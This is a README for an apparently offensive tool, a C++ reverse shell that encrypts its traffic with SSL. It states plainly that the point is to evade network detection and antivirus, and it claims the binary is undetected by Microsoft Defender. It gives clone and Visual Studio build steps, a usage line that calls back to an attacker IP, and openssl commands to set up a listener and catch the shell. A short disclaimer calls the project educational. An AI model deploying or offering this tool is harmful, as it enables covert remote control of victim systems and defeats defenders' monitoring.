

# SSL C++ Reverse Shell

## Overview
When it comes to SSL/TLS reverse shells, the publicly available options are often limited to:
- **Using `msfvenom` to generate an HTTPS reverse shell (Signatured)**.
- **Using a PowerShell / Python payload (high level languages)**.

### Why Do We Need One?
Using a standard reverse shell often results in unencrypted traffic, which can be easily flagged by **Network Detection and Response (NDR)** systems or firewalls. These tools inspect network traffic and can identify remote code execution patterns, blocking the binary and alerting defenders.

An encrypted reverse shell helps evade such detection by:
1. Encrypting all communication, making it harder for network tools to inspect the traffic.
2. Using SSL to blend in with legitimate HTTPS traffic.

To address this gap, I created a simple **C++ SSL Reverse Shell** POC (commented and explained):
- **Undetected** by Microsoft Defender and some other AV solutions at the time of publishing.
- Enables secure communication via SSL, reducing the chance of detection.

> **Note**: I tested the binary against a limited set of antivirus solutions, and results may vary across environments.

---

## Setup Instructions
Follow these steps to set up the project:

1. **Download the Necessary Files**:
   - Clone the repository:  
     ```bash
     git clone https://github.com/V-i-x-x/SSLReverseShell.git
     ```
   - Download `OpenSSLWin64.zip` (linked in the repository).

2. **Extract OpenSSL Libraries**:
   - Unzip `OpenSSLWin64.zip` into a folder of your choice.  
     For example, in the project, I placed it in the `C:\` directory.

     ```plaintext
     C:\OpenSSLWin64
     ```

3. **Compile the Project**:
   - Ensure the project includes the OpenSSL libraries for successful compilation into a single `.exe` binary.

---

## Additional Notes
- **OpenSSLWin64**: This is the precompiled SSL library required for the project. Ensure it is correctly set up to avoid linking issues.
- **Testing**: While the binary is undetectable by some AV solutions as of now, this is not guaranteed against all antivirus software or future updates.

---

## Configuration In Visual Studio

1- Go to C/C++ → Code Generation → Runtime Library.
Set this to Multi-threaded (/MT) to ensure that your application links statically against the runtime libraries, which helps in creating a single binary.


2- Configuration Properties > C/C++ > General, add the path to the OpenSSL include directory (C:\OpenSSLWin64\install\include) to Additional Include Directories.



3- Under Configuration Properties > Linker > General, add the path to the OpenSSL library directory (C:\OpenSSLWin64\install\lib) to Additional Library Directories


4- Under Configuration Properties > Linker > Input, add the following to Additional Dependencies:
C:\OpenSSLWin64\install\lib\libssl.lib
C:\OpenSSLWin64\install\lib\libcrypto.lib


---
## Usage

```
.\SSLReverseShell.exe 192.168.33.146 443
```

---

## Capture the reverse shell in your Kali OS

1- Generate a New RSA Private Key and Self-Signed Certificate (Containing the Public Key)
```
openssl req -newkey rsa:2048 -nodes -keyout attacker.key -x509 -days 365 -out attacker.crt
```
2- Combine the Private Key and Certificate into a PEM File
```
cat attacker.crt attacker.key > attacker.pem
```
3- Start an OpenSSL SSL Server on Port 443
```
openssl s_server -accept 443 -cert attacker.crt -key attacker.key -cipher ALL -quiet
```
---

### Disclaimer
This project is for **educational purposes only**. Unauthorized use of this tool in production or against systems without explicit permission is strictly prohibited.

